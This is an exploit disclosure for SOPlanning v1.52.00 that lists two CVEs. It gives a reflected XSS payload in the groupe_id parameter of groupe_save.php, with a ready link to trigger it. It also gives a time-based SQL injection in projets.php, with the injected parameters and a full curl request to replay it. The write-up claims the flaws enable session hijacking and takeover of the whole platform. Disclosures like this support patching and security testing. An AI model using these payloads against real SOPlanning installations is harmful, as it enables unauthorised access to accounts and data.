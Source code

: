 Exploit Title: SOPlanning v1.52.00 'groupe_save.php' XSS (Reflected XSS)

Application: SOPlanning

Version: 1.52.00

Date: 4/22/24

Exploit Author: Joseph McPeters (Liquidsky)

Vendor Homepage: https://www.soplanning.org/en/

Software Link: https://sourceforge.net/projects/soplanning/

Tested on: Linux

CVE: CVE-2024-33724

Exploit: https://github.com/fuzzlove/soplanning-1.52-exploits/blob/main/soplanning-XSS-README.txt

Description: SOPlanning v1.52.00 is vulnerable to XSS via the 'groupe_id' parameters a remote unautheticated attacker can hijack the admin account or other users. The remote attacker can hijack a users session or credentials and perform a takeover of the entire platform.

Example Payload:
"><script>alert('LiQUiDSKY')</script><!--

Reflected XSS Link: /soplanning/www/process/groupe_save.php?saved=1&groupe_id="><script>alert('LiQUiDSKY')</script><!--&nom=Project+New

Analysis: The landing page takes into consideration the user input parameter then redirects to a page where the XSS is shown the payload included in the exploit escapes the variable where it is held and comments out the rest to perform a valid reflected XSS attack against any authenticated user including the admin.


----------------------------------------------------------------------------------------------------------------------


Exploit Title: SOPlanning v1.52.00 'projets.php' SQLi

Application: SOPlanning

Version: 1.52.00

Date: 4/22/24

Exploit Author: Joseph McPeters (Liquidsky aka fuzzlove)

Vendor Homepage: https://www.soplanning.org/en/

Software Link: https://sourceforge.net/projects/soplanning/

Tested on: Linux

CVE: CVE-2024-33722

Description: SOPlanning v1.52.00 is vulnerable to Authenticated SQL Injection via the 'projects.php' page.

Instructions: Authenticate to the host, the credentials can be obtained using a CSRF exploit (more info included). Once valid credentials are obtained use either a GET/POST request to send the valid parameters that equal to valid SQLi.

Vulnerable request parameters for request to "/www/projets.php":

filtreGroupeProjet=1&statut[]=todo'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+'Liquidsky'='Liquidsky&rechercheProjet=test

The above parameters can be sent as either a valid GET/POST request to trigger the SQLi.
Example Curl Request To Re-Test SQLi:

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 130' -H $'Origin: http://127.0.0.1' -H $'Connection: close' -H $'Referer: http://127.0.0.1/soplanning/www/projets.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' \
    -b $'dateDebut=23/04/2024; dateFin=23/06/2024; xposMoisWin=0; xposJoursWin=0; yposMoisWin=0; yposJoursWin=0; yposProjets=33; PHPSESSID=ovpbclvbc87uh7anfbq2luf9bi; soplanningplanning_=hhrtf0rgs562vm8rhn5i641481; baseLigne=users; baseColonne=jours; afficherTableauRecap=1; masquerLigneVide=0; statut_projet=%5B%22abort%22%2C%22archive%22%2C%22done%22%2C%22progress%22%2C%22todo%22%5D' \
    --data-binary $'filtreGroupeProjet=1&statut[]=todo\'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+\'Liquidsky\'=\'Liquidsky&rechercheProjet=test' \
    $'http://127.0.0.1/soplanning/www/projets.php'


  Note: Cookies need to be authenticated and request needs to be valid for valid SQLi. This curl request can be used with a proxy to reconstruct a valid request.
